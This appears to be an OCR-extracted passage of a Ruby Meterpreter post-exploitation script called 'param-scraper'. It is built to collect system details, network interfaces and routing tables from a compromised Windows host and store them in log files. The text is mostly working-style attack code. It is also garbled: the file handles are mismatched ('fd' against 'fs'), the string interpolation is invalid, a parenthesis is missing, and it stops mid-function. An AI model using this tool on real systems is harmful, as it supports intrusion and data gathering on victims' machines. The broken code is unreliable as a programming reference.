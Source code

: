 ```ruby
################# Function Declarations #################

# Wrong Meterpreter Version Message Function
#-----------------------------------------------------------
def wrong_meter_version(meter = meter_type)
  print_error("#{meter} version of Meterpreter is not supported with this Script!")
  raise Rex::Script::Completed
end

# Usage Message Function
#-----------------------------------------------------------
def usage
  print_line("Param-Scraper - parametric harvest system info, network info, and users info.")
  print_line("Info is stored in " + ::File.join(Msf::Config.log_directory, "scripts", "param-scraper")
  print_line("USAGE: run param-scraper <option list>")
  print_line(@exec_opts.usage)
  print_line("EXAMPLE: run param-scraper -s -n -u\n")
  raise Rex::Script::Completed
end

# Logs Directory Creation Function
#-----------------------------------------------------------
def create_logs_directory
	return if @logs_path
	host = client.session_host
	@logs_path = ::File.join(Msf::Config.log_directory, "scripts", "param-scraper", host + "_" + 
		Time.now.strftime("%Y%m%d.%M%S") + sprintf("%.5d", rand(100000)))
	::File.mkdir_p(@logs_path)
	print_line("#{@logs_path} directory created.")
end

# System Info Harvesting Function
#-----------------------------------------------------------
def sysinfo
	begin
		print_status("System information downloading...")
		create_logs_directory
		::File.open(::File.join(@logs_path, "sysinfo.txt"), "w") do |fd|
			fs.puts("------------- Meterpreter System Information -------------")
			fs.puts
			client.sys.config.sysinfo.each { |key, value| fd.puts "#{key}: #{{value}}" }
			fs.puts("\n------------- Windows System Information (systeminfo) -------------")
			fs.puts(m_exec(client, "systeminfo"))
		end
		print_good("System information downloading... -> DONE")
	rescue ::Exception => e
		print_error("System information downloading... - ERROR")
	end
end

# Network Info Harvesting Function
#-----------------------------------------------------------
def netinfo
	begin
		print_status("Network information downloading...")
		create_logs_directory
			::File.open(::File.join(@logs_path, "netinfo.txt"), "w") do |fd|
			fs.puts("------------- Meterpreter Network Interfaces Information -------------")
			client.net.config.each_interface { |i| fd.puts i.pretty }
			fs.puts("\n------------- Windows Routing Tables (netstat -rn) -------------")
			fs.puts(m_exec(client, "netstat -rn"))
```